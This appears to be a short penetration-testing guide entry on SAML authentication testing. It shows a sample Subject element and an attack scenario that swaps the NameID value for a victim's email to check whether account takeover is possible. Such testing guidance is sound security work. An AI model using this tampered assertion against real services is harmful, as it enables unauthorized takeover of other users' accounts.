 
###  Replacing the value of  Name Identifier in Subject element
<hr>

This test case is all about replacing the value of Name Identifier returned by the IDP in Subject element.

Let's say, web application asked IDP to return user ID or email address after successfull authentication. The value will be in enclosed in below mentioned tags:

     <saml:Subject><saml:NameID>  <saml:Subject><saml:NameID> 

Sample:

    <Subject>
      <NameID Format="urn:oasis:names:tc:SAML:2.0:nameid-format:persistent">user@target.com</NameID>
      <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <SubjectConfirmationData
          InResponseTo="_b083bff2-7a09-409c-9590-55316baafaae"
          NotOnOrAfter="2023-05-27T21:26:37Z" Recipient="http://web_application/saml/consume"/>
      </SubjectConfirmation>
    </Subject>
<hr></hr>

#### Attack scenario:
Now, to check if account take over can happen, replace the value of Name identifier with victim user account ID or email. 

Here is an example:

    <Subject>
      <NameID Format="urn:oasis:names:tc:SAML:2.0:nameid-format:persistent">victim@target.com</NameID>
      <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <SubjectConfirmationData
          InResponseTo="_b083bff2-7a09-409c-9590-55316baafaae"
          NotOnOrAfter="2023-05-27T21:26:37Z" Recipient="http://web_application/saml/consume"/>
      </SubjectConfirmation>
    </Subject>



